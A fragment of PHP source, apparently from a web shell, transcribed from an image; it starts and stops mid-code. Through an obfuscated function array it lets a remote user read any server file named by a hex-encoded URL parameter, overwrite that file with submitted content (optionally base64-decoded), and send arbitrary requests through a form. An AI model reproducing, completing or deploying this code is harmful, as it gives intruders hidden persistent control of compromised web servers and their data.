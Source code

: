 									<input onclick="location.href=\'?d='.$_GET["d"].'&e='.$_GET["s"].'\'" type="submit" class="w" value="&nbsp;EDIT&nbsp;" />
								'.$c_;
					}
					elseif(isset($_GET["y"])) {
						echo $a_.'REQUEST'.$b_.'
									<form method="post">
										<input class="x" type="text" name="1" />&nbsp;&nbsp;
										<input class="x" type="text" name="2" />
										'.$d_.'
									<br />
									<textarea readonly="yes">';

									if(isset($_POST["2"])) {
										echo $GNJ[15](dre($_POST["1"], $_POST["2"]));
									}

								echo '</textarea>
								'.$c_;
					}
					elseif(isset($_GET["e"])) {
						echo $a_.uhex($_GET["e"]).$b_.'
									<form method="post">
										<textarea name="e" class="o">'.$GNJ[15]($GNJ[6](uhex($_GET["e"]))).'</textarea>
										<br />
										<br />
										<span class="w">BASE64</span> :
										<select id="b64" name="b64">
											<option value="0">NO</option>
											<option value="1">YES</option>
										</select>
										'.$d_.'
								'.$c_.'
								
					<script>
						$("#b64").change(function() {
							if($("#b64 option:selected").val() == 0) {
								var X = $("textarea").val();
								var Z = atob(X);
								$("textarea").val(Z);
							}
							else {
								var N = $("textarea").val();
								var I = btoa(N);
								$("textarea").val(I);
							}
						});
					</script>';
					if(isset($_POST["e"])) {
						if($_POST["b64"] == "1") {
							$ex = $GNJ[7]($_POST["e"]);
						}
						else {
							$ex = $_POST["e"];
						}
						$fp = $GNJ[17](uhex($_GET["e"]), 'w');
						if($GNJ[18]($fp, $ex)) {
							OK();
						}
						else {
							ER();
						}
						$GNJ[19]($fp);
					  }
					}